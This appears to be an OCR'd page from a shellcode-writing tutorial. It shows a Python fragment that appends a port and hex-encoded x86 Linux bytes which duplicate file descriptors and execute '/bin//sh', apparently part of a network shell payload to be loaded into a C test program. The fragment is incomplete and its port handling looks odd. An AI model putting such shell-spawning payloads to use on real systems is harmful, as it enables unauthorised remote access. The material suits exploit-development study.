 \documentclass[11pt]{article}
\begin{document}
\begin{verbatim}
print("Port is: ")
print(port)
shellcode+= port
shellcode+="\\x43\\x66\\x53\\x89"
shellcode+="\\xe1\\x6a\\x10\\x51\\x57\\x89\\xe1\\x43\\xcd\\x80\\x31\\xc9\\xb1\\x02\\x31\\xc0"
shellcode+="\\xb0\\x3f\\xcd\\x80\\x49\\x79\\xf9\\x31\\xc0\\xb0\\x0b\\x31\\xdb\\x53\\x68\\x2f"
shellcode+="\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xcd\\x80";

print(shellcode)
\end{verbatim}

Pop it in our shellcode.c program again:
\end{document}
